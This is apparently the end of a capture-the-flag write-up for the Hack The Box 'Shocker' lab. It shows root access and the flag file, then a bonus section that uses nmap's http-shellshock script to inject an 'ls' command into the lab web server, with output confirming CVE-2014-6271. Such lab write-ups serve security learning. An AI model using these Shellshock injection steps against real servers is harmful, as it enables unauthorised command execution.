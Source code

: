 ```bash
root
root@Shocker:/tmp# cd /root
root@Shocker:~# ls
root.txt
root@Shocker:~# cat root.txt 
adcd.....c16c
```
## Bonus
### Enumeration shellshock vuln with nmap script
```bash
┌──(kali㉿kali)-[~/htb/shocker]
└─$ locate nse | grep shellshock
/usr/share/nmap/scripts/http-shellshock.nse

┌──(kali㉿kali)-[~/htb/shocker]
└─$ cat /usr/share/nmap/scripts/http-shellshock.nse | grep nmap
-- nmap -sV -p- --script http-shellshock <target>
-- nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls <target>
license = "Same as Nmap--See https://nmap.org/book/man-legal.html"

┌──(kali㉿kali)-[~/htb/shocker]
└─$ nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls shocker.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-13 08:33 EST
Nmap scan report for shocker.htb (10.10.10.56)
Host is up (0.019s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     Exploit results:
|       <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
|   <html><head>
|   <title>500 Internal Server Error</title>
|   </head><body>
|   <h1>Internal Server Error</h1>
|   <p>The server encountered an internal error or
|   misconfiguration and was unable to complete
|   your request.</p>
|   <p>Please contact the server administrator at 
|    webmaster@localhost to inform them of the time this error occurred,
|    and the actions you performed just before this error.</p>
|   <p>More information about this error may be available
|   in the server error log.</p>
|   <hr>
|   <address>Apache/2.4.18 (Ubuntu) Server at shocker.htb Port 80</address>
|   </body></html>
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
```